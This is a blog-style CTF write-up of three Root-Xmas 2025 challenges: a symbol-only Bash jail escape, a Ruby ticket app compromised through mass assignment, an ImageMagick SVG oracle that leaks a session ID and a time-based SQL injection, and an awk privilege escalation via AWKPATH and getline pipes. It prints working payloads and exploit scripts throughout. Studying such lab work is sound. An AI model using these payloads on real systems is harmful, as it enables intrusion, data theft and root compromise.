

+++
title = 'Root-Xmas 2025 | Writeup Selection'
date = 2025-12-27T00:00:00-01:00
draft = false
tags = ['Bash','Ruby','awk','privesc']
description= "Writeups for a selection of Root-Xmas 2025 challenges."
+++

Once more, Root-Xmas CTF was back this year, and once more, it was the highlight of the month 🎀 This blog post details three of my challenges' solutions for the Days 8, 11 and 18, including a Bash jail, a Ruby web app and an `awk` privesc.

To speak my heart, I really learned a lot during this CTF as the web aficionada that I am had to get out of her comfort zone and really tryhard reverse, hardware, crypto, pwn, etc. In fact, from each challenge of the twenty which I validated, I did gain not only a flag, but also several new insights.

Kudos to the entire staff 🤍 One could really feel the creativity and care that were put in each of the challenges.

Anyway, that was a long intro, so let's get started.


## Day 8 - Merry Christmas | You're trapped
**Tags**: _Medium, misc, bash, jail_

**Description :**

The Grinch has kidnapped Santa's Chief Management Officer Elf, a key figure responsible for coordinating present delivery all around the world.   
We need to get him out as soon as possible!  
This is urgent, please help us set him free from the the Grinch's freezing jail!! The success of Christmas depends on it.

---

We are given the following Bash jail script which we need to escape and read the flag : 
```sh
#!/bin/bash

PATH=$(/usr/bin/getconf PATH || /bin/kill $$)

#######################################################
#              |>>>                    |>>>          #
#              |                       |             #
#          _  _|_  _               _  _|_  _         #
#         |;|_|;|_|;|             |;|_|;|_|;|        #
#         \\..      /             \\..      /        #
#          \\..    /               \\..    /         #
#           \\..  /                 \\..  /          #
#            ||||                     ||||           #
#            ||||                     ||||           #
#   ______________________________________________   #
#  /______________________________________________/| #
# |                                              | | #
# |      |   |   |   |   |   |   |   |   |       | | #
# |      |___|___|___|___|___|___|___|___|       | | #
# |                                              | | #
# |              "Help me please..."             | | #
# |______________________________________________|/  #
#######################################################

function check_input() {
    if [[ $1 =~ '..' || $1 =~ './' || $1 =~ [[:space:]]'/' ]]
    then
        return 0
    fi
    if [[ $1 =~ [[:alnum:][:space:]] ]];
    then
        return 0
    fi
    if [[ $1 =~ '<' || $1 =~ '>' ]];
    then
        return 0
    fi

    return 1
}

# Todo remove this shit... it can be retrieved by the player ?! >_<
flag=`cat "/flag.txt"`

while :
do
    input=""
    echo -n "Enter the input: "
    read input
    if check_input "$input" #&& false
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output=`env -i PATH=$HOME/bin/ /bin/bash --noprofile --norc --restricted -c "$input" < /dev/null`
                echo "Command executed"
        fi
done                             
```
In the main loop, our input is read from standard input and :
- If `check_input "$input"` returns true (`0`), the input is rejected.
- If it returns false (`1`), the input is executed inside a restricted Bash environment:
```sh
env -i PATH=$HOME/bin/ /bin/bash --noprofile --norc --restricted -c "$input" < /dev/null
```
One key restriction of `--restricted` Bash is that it forbids using `/` in command names.

Looking at `check_input()`, the input is rejected if:
- It contains `..`, `./`, or a space immediately followed by `/`
- It contains any alphanumeric character or any space
- It contains `<` or `>`

If any of these conditions are met, the input is considered invalid.
This leaves us with the following allowed character set:
```sh
! " # $ % & ' ( ) * + , - . : ; = ? @ [ \ ] ^ _ ` { | } ~

```

Our flag is in `/flag.txt`, so we need to read this file using only the allowed characters, while also bypassing the restrictions imposed by `restricted` Bash.

Although the character set is extremely limited, Bash still supports variable assignment and expansion, so let's leverage that to flag! Our goal is to construct the payload `cat /flag.txt`. Furthermore, since we only see error output, we need to intentionally trigger an error so that the result of `cat /flag.txt` is displayed.

We have the binary `/bin/cat` in `/root/bin/` so we can use it.  
We use `__=(~/???/???)` to reference `/bin/cat` and we need to extract the `cat` portion from it.  
We can create `0` with `___=$[]` (empty arithmetic expression that defaults to 0) which allows us to index and extract the content of the string.  
Then, using bash [parameter expansion and pattern matching](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html), we extract the `cat` part, by extracting the last portion after the last `/`. Let's test this :
```sh
Enter the input: __=(~/???/???);___=$[];__="${__[$___]}";___="${__##*/}";$___?   
/bin/bash: line 1: cat?: command not found
```
This input initializes an array referencing `/bin/cat`, creates an index with value `0`, and then extracts the cat string from the array. Finally, it extracts the last portion of the string that follows the last `/`. (We add the `?` to trigger an error to be able to see the output). In a nutshell, our `cat` can be written as :
```sh
__=(~/???/???);___=$[];__="${__[$___]}";___="${__##*/}";$___
```

We reference `/flag.txt` using the same procedure :
```sh
__=(/????.???);___=$[];__="${__[$___]}";$__                                                 
```

Finally, to force an error, we can simply evaluate the result of `cat /flag.txt` as a bash command and since we cannot use spaces, we run the command using `${cat,/flag.txt}`.

Final payload: 
```sh
Enter the input: __=(~/???/???);___=$[];__="${__[$___]}";___="${__##*/}";$({$___,/????.???})
/bin/bash: line 1: RM{0mG_Y3S_1_kn3w_y0u_w0uld_h3lp_m3_w3_r3_601n6_70_s4ve_CH1stM4s_70637h3r_TY_S0_MUCH_FOR_s4v1ngME<<<3}: command not found
Command executed
```

---

## Day 11 - Ticket Tracker
**Tags**: _Hard, web, Ruby_  

**Description :**

Take Santa's sleigh to navigate through the depths of Ruby, where you will find the flag.


---
In this challenge, we are given a web application where we can we can create tickets and upload attachments (images or PDFs) for which thumbnails will be generated. We can see from the source files that our flag is the admin password so we need to extract that somehow. 
We first think about an SQL injection, and while looking through the files we observe the following code :
```ruby
if params[:sort].present?
    @tickets = @tickets.order(Arel.sql(params[:sort]))
else
    @tickets = @tickets.order(created_at: :desc)
end
```
This is textbook SQL injection in the `sort` parameter. Nevertheless, to get be able to exploit it, we first need to access the admin panel. Let's try to achieve that.

I will not detail everything as the [author's writeup](https://elweth.fr/writeups/Root-Me_-_XMAS_2025/Day_11_-_TicketTracker) explains well the entirety of the challenge, Nevertheless, I will focus on what I did differently, so kinda the _unintended_ solution ^^

For the first part, I did as the original writeup : I exploited the mass assignment to create an account validated by the admin using the payload :
```json
{"user":
    {"email":"test@test",
    "password":"test",
    "name":"test",
    "validated": true,
    "role":"admin"
}}
```
Even though our role is `admin`, our user ID is 2, and we know that the admin panel is only accessible with the first user ID given the code snippet below : 
```ruby
def require_admin
    unless @current_user && @current_user.id == 1
      render json: { error: 'Access denied.' }, status: 403
    end
end
```
Hence, our next goal is to takeover the admin account. Given the following code, the session cookie of each user is written into the file `/tmp/sess_<user_session_id>`.
```ruby
require 'securerandom'
require 'json'

class CustomSessionStore
  SESSION_DIR = '/tmp'

  class << self
    def create_session(user_id)
      session_id = SecureRandom.hex(16)
      session_data = {
        user_id: user_id,
        created_at: Time.now.to_i
      }

      session_file = File.join(SESSION_DIR, "sess_#{session_id}")

      File.open(session_file, 'wb') do |file|
        file.write(Marshal.dump(session_data))
      end

      session_id
    end

    def load_session(session_id)
      return nil unless session_id

      session_file = File.join(SESSION_DIR, "sess_#{session_id}")
      return nil unless File.exist?(session_file)

      begin
        File.open(session_file, 'rb') do |file|
          Marshal.load(file.read)
        end
      rescue => e
        Rails.logger.error "Session load error: #{e.message}"
        nil
      end
    end

    def destroy_session(session_id)
      return unless session_id

      session_file = File.join(SESSION_DIR, "sess_#{session_id}")
      File.delete(session_file) if File.exist?(session_file)
    end

    def get_user_from_session(session_id)
      session_data = load_session(session_id)
      return nil unless session_data

      User.find_by(id: session_data[:user_id])
    end
  end
end 
```

Hence, if we manage to obtain the admin's `session_id`, we will gain access to their admin account. Let's try to achieve this using the tickets which we can create. 

After digging a bit more into the challenge source code, I did not see a clear vulnerability that we could use. However, given that we can upload files, maybe we can find a way to exploit that feature especially with the custom thumbnail generation function.   
With only PDFs and images, we cannot do much but maybe we can do more?  
After reading this great [Synacktiv post](https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016#footnote8_d5xu6ed), I first tried using the **PDF/PostScript polyglot** approach, but did not manage to make it work correctly as my PostScript was not executed.  
Therefore, I focused on SVGs as, in my previous attempt, I succeeded creating PDF/SVGs due to the parser confusion. After several options for many hours, I found this [article](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) that underlines the `VID` format which enables **filename expansions** and I quote :
```sh
The call of ExpandFilenames means that the VID scheme accepts masks, and constructs filepaths using them.

Therefore, by using the vid: scheme, we can include our temporary file with the MSL content without knowing its name
``` 
This was a turning point. I first tried to include the session file content in the SVG as an MSL as the article suggsted but that was in vain (and that makes sense as our session file is not a valid MSL) : 
```xml
<SVG height="100" width="100"><!--
%PDF-1.3
-->
  <rect x="0" y="0" width="1000" height="1000" fill="green"/>
  <image xlink:href="vid:msl:/tmp/sess_*" x="0" y="0" width="100" height="100"/>
</SVG>

```
Then, after several attempts, I thought : if we can expand filenames using the `vid` format in a controlled way, we could guess the admin session filename character by character, in other words, we can turn this into a kind of **SVG oracle** ^^
Nevertheless, we still need to observe a difference in behavior depending on whether the targeted file exists or not to leverage that.

I changed `msl` with `text` and that is when magic (or let's say imagick x) ) happened with this payload :
```xml
<SVG height="100" width="100"><!--
%PDF-1.3
-->
  <rect x="0" y="0" width="1000" height="1000" fill="green"/>
  <image xlink:href="vid:text:/tmp/sess_*" x="0" y="0" width="100" height="100"/>
</SVG>
```
the thumbnail was correctly finally generated.


The thumbnail was correctly generated when the file existed, whereas the `thumbnail_path` is `null` when the file does not.  




By exploiting the different behavior in the two cases, we were able to extract the admin session ID character by character.

Once logged in as admin, the final step was exploiting the SQL injection.
By injecting a time-based payload into the `sort` parameter, we can observe response delays and hence, extract the admin password (Since this is a time-based SQLi, using dichotomy was a lifesaver as well!)
```sh
GET /api/admin/tickets?search=&sort=title%20ASC,%20(select%20case%20when%20substr(password,1,1)='R'%20then%201337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))%20else%201%20end%20FROM%20users%20WHERE%20id=1);-- HTTP/1.1
Host: localhost:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:10000/admin
Content-Type: application/json
Connection: close
Cookie: firefox-icon-notification-confirm=true; session_id=b73e15c2f9998d0e7b6751f64a9316e3
Priority: u=0
```

Finally, we obtained our flag: `RM{RubY_1s_f1nally_N0t_My_l4nguage}`

---

## Day 18 - Hate your job? - _Initial & Revenge_

**Tags**: _Medium, System_ 

**Description :**

Your life at work is falling apart. Your colleagues gave you socks for Secret Santa... used ones. Your manager only talks to you to forward bugs... and blame you for them. And as a final holiday gift, you've been assigned to maintain "VM Checker", a duct-taped bash script that even interns refuse to touch.

But it technically works

This Christmas, you've had enough! Become root. Wreak havoc. And finally earn the respect you've been denied all year. Or at least, find the flag...

---

We are given the following Bash script:

```sh
#!/bin/bash

# I'm so sorry to write this shit code ... I'm not a good developer.
# If you try to fix it, you'll probably break something else.
# Please increment the time of hours wasted on this project.
# Time: 89 hours

PATH=$(/usr/bin/getconf PATH 2>/dev/null || /bin/kill $$)

if [[ "$(pwd)" != "/home/user/vmchecker" ]]; then
    echo "Error: you must run this script from /challenge"
    exit 1
fi


while true; do
    echo -n "Enter the input: "
    read -r input

    case "$input" in
        1)
            # This part is totaly insecure and vulnerable to bypass. fix it please.
            i=0
            for p in /proc/[0-9]*; do
                name=$(tr '\0' ' ' < "$p/cmdline" | sed 's/ *$//')
                if [[ -z "$name" ]]; then
                    echo "Error: process $p has no name"
                    i=$((i+1))
                    continue
                fi
                # Luckily it's protected, otherwise Benjamin, you're fired.
                if [[ "$name" == *['*''/''(''{''['' ''-''=''s''h']*  ]]; then
                    echo "Error: unsafe process name detected. for process $p"
                    i=$((i+1))
                    continue
                fi
                awk "$name" "$p/status" < /dev/null 
                if [[ $? -ne 0 ]]; then
                    echo "Error: suspicious mapping detected. for process $p"
                    i=$((i+1))
                    continue
                fi
            done
            if [[ $i -eq 0 ]]; then
                echo "[-] no unsafe process name or suspicious mapping detected"
            else
                echo "[-] $i unsafe process name or suspicious mapping detected. Check before push in production"
            fi
            ;;
        2)
            # Benjamin can you please fix the fucking code ... I SPAMMED YOU
            # I'm not sure if you're a genius or a dumbass, but you're definitely not a good developer.
            # You're a fucking idiot. Remove the option 2 or make it more secure.
            echo "cleaning up..."
            rm -rf /tmp/proc_*
            for p in /proc/[0-9]*; do
                cgroup="$p/cgroup"
                maps=$(awk "$cgroup" "$p/maps" &> /dev/null)
                if [[ $? -ne 0 ]]; then
                    /bin/bash -c "echo 'Error: cgroup not found for cgroup: $cgroup' > /dev/null 2>&1" < /dev/null
                    continue
                fi
            done
            echo "[-] cleaning up done"
            ;;
        3)
            # Nice dead code man ... you're a fucking idiot.
            ;;
        *)
            echo "Invalid input" 
            ;;
    esac
done
```

This script is executed as SUID root using a wrapper binary.

The main script logic is the following :
- It enforces execution from `/home/user/vmchecker`
- It provides three options (actually two):
    - **Option 1 :** it iterates over `/proc/[pid]` and reads each process command line, then, after applying a blacklist filter on process names, it passes the process name directly as an argument to `awk` command.

    -  **Option 2 :** it attempts to clean temporary files matching `/tmp/proc_*`, then iterates over all running processes in `/proc`. For each process, it invokes `awk`, using the process’s `cgroup` file path as the awk program and the process’s maps file as input, redirecting all output to `/dev/null`.
    If the awk invocation fails (non-zero exit code), the script executes a subshell using `/bin/bash -c` to print an error message, while suppressing both stdout and stderr.

    - **Option 3 :** Dead code so nothing much

Let's also note that we cannot create any file in `/home/user/vmchecker` as it is owned by root and that our flag is stored with a random filename in the directory `/root/smell_like_a_flag/` as showcased in the Dockerfile :
```sh
RUN mv /root/flag.txt /root/smell_like_a_flag/flag$(head -c 16 /dev/urandom | base64 | tr -dc 'a-zA-Z0-9' | head -c 32)
RUN chown root:root /home/user/vmchecker && \
    chmod 740 -R /root
```

We know that we can control the command line (`argv[0]`) of processes which we create.

On the one side, in option 1, this value is passed directly to `awk` as the program argument, which we can maybe exploit to achieve awk injection given by `awk <our_process_cmdline> <file>`.
Nevertheless, there is a very strict blacklist that blocks the following characters which are usually essential for meaningful `awk` programs : `* / ( { [ <space> - = s h`

On the flip side, for the second option, injecting into `awk` would require influencing a process’s  `cgroup` path. This would mean either writing to `/proc` (which is not feasible, as `/proc` is a virtual filesystem) or modifying cgroups, which generally requires root privileges afaik. Therefore, this approach is quite harder.

Well, these are only first intuitions, let’s now dive into the actual exploitation.

### Initial Challenge
The wrapper of the initial challenge is the following :
```c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    if (setgroups(0, NULL) != 0) {
        perror("setgroups");
        return 1;
    }
    
    if (setresgid(0, 0, 0) != 0) {
        perror("setresgid");
        return 1;
    }

    if (setresuid(0, 0, 0) != 0) {
        perror("setresuid");
        return 1;
    }

    system("/home/user/vmchecker/pwnme.sh");

    return 0;
}
```

Here, the SUID binary uses `system()` to execute the script and since `system()` inherits environment variables, we can influence the latter.

In particular, we can exploit the [`AWKPATH`](https://www.gnu.org/software/gawk/manual/html_node/AWKPATH-Variable.html) environment variable to force `awk` to load scripts from a directory that we control. Then, we can create a process in a way that the `awk` command runs files from that directory, no characters blacklist limitations ^^ Let's do that.

We define `AWKPATH` as `/tmp` and create an `awk` script that reads the flag and writes it to `/tmp/flag.txt`. Since we can control the command line of a process, we can use it to inject an `@include` directive in the `awk` command which becomes : 

```sh
export AWKPATH=/tmp

# create awk script
cat > /tmp/t.awk << 'EOF'
BEGIN{ 
    system("cat /root/smell_like_a_flag/flag* > /tmp/flag.txt") 
}
EOF

# set awk payload
payload="@include\"t.awk\""

cd /tmp

# create pauser
cat > pauser.c << 'EOF'
#include <unistd.h>
int main() { pause(); return 0; }
EOF
gcc -o pauser pauser.c

# run pauser with payload as argv[0]
exec -a "$payload" ./pauser &

cd /home/user/vmchecker
./pwnme 

[1] 30
Enter the input: 1
Error: unsafe process name detected. for process /proc/1
Error: unsafe process name detected. for process /proc/13
Error: unsafe process name detected. for process /proc/19
Error: unsafe process name detected. for process /proc/20
Error: unsafe process name detected. for process /proc/31
Error: unsafe process name detected. for process /proc/32
Error: unsafe process name detected. for process /proc/33
[-] 7 unsafe process name or suspicious mapping detected. Check before push in production

```
At this point, the flag is written to `/tmp/flag.txt`, and we can read it :
```sh
user@hate-your-job:~/vmchecker$ ls /tmp/
flag.txt  pauser  pauser.c  t.awk
user@hate-your-job:~/vmchecker$ cat /tmp/flag.txt 
RM{You_h4te_y0ur_j0b_but_s3cr3t_s4nt4_g4v3_y0u_socks_for_Chr1stmas_n0w_y0u_f33l_b3tt3r_y0u_w1ll_f1nd_a_n3w_j0b_n3xt_y34r}
```

### Revenge
Below is the wrapper for the revenge challenge:

```c
#define _GNU_SOURCE
#include <grp.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    if (setgroups(0, NULL) != 0) {
        perror("setgroups");
        return 1;
    }

    if (setresgid(0, 0, 0) != 0) {
        perror("setresgid");
        return 1;
    }

    if (setresuid(0, 0, 0) != 0) {
        perror("setresuid");
        return 1;
    }

    char *argv_[] = { "pwnme.sh", NULL };
    char *envp[] = { NULL };
    execve("/home/user/vmchecker/pwnme.sh", argv_, envp);

    return 0;
}
```
This time, the challenge fixes the vulnerability by using `execve()` with a clean environment, which prevents `AWKPATH` injection and completely breaks the initial exploit.

Now, it is us against `awk` and we know that in our process name : 
- We cannot use spaces, so no `BEGIN` .. `END`.
- We cannot use parentheses, so no `system()`.
- We cannot use curly braces `{}` either.

After digging into this [GNU awk documentation](https://www.gnu.org/software/gawk/manual/gawk.html#Using-getline-from-a-Pipe), I learned that it is possible to execute commands with `awk "<command> | getline" <file>`

In our case, this allows us to run a command using `awk "\"cmd\"|getline" <file>` and hence, run commands as root. All we need now is to `cat` the flag file. However, there is still one issue, we cannot use either `s` or `h`, nor `/` . To bypass that, we can use hex encoding for the blacklisted characters.

Finally, I used the following commands to craft the final payload. 
```sh
cd /tmp

# create file with our payload
cat > payload << 'EOF'
cat /root/smell_like_a_flag/flag*
EOF

# create pauser
cat > pauser.c << 'EOF'
#include <unistd.h>
int main() { pause(); return 0; }
EOF
gcc -o pauser pauser.c

# set awk payload
payload="\"cat<'\x2ftmp\x2fpayload'|'\x73\x68'\"|getline"

# run pauser with payload as argv[0]
exec -a "$payload" ./pauser &

cd /home/user/vmchecker
./pwnme 
[1] 30
Enter the input: 1
Error: unsafe process name detected. for process /proc/1
Error: unsafe process name detected. for process /proc/13
Error: unsafe process name detected. for process /proc/19
Error: unsafe process name detected. for process /proc/20
RM{0ops_th3_c0de_w4s_3v3n_w0rse_th4n_3xp3cted_n0w_y0u_r3ally_n33d_t0_f1nd_a_n3w_j0b}
Error: unsafe process name detected. for process /proc/31
[-] 5 unsafe process name or suspicious mapping detected. Check before push in production

```

And voila, flagged ^^

